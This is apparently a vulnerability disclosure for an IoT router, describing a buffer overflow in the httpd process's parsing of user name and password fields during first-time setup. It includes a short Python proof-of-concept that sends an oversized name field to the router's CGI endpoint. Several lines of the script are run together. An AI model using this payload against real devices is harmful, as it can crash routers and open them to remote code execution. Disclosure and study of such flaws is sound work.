## ***\*Affected version\****

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E3.tmp.jpg) 

##  

## ***\*Description\****

There is a buffer overflow when HTTP body message is parsed by httpd process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process access to illegal address.

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E4.tmp.jpg) 

The instruction where the error occurred is libcmm.so

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E5.tmp.jpg) 

Crash log

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E6.tmp.jpg) 

## ***\*Vulnerability analysis\****

Through the tracking of data flow, we found that the problem occurred in the following code

![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E7.tmp.jpg) 

v21 variable stores the value corresponding to each key-value pair (such as user name and password)，The length of the variable v26 is only 1304 bytes. When we are exploiting the vulnerability, we also need to pay attention to the 96 lines of code that will cause a crash due to buffer overflow.

## 

## ***\*How to Reproduce (PoC)\****

It is easy to reproduce this problem.

\# Only after resetting the router or using the router for the first time, can the script work effectively!import requests

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

payload = "a" * 512 + "b" * 1024formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)print response.text



![img](https://github.com/cilan2/iot/blob/main/img/wpsE0E8.tmp.jpg) 

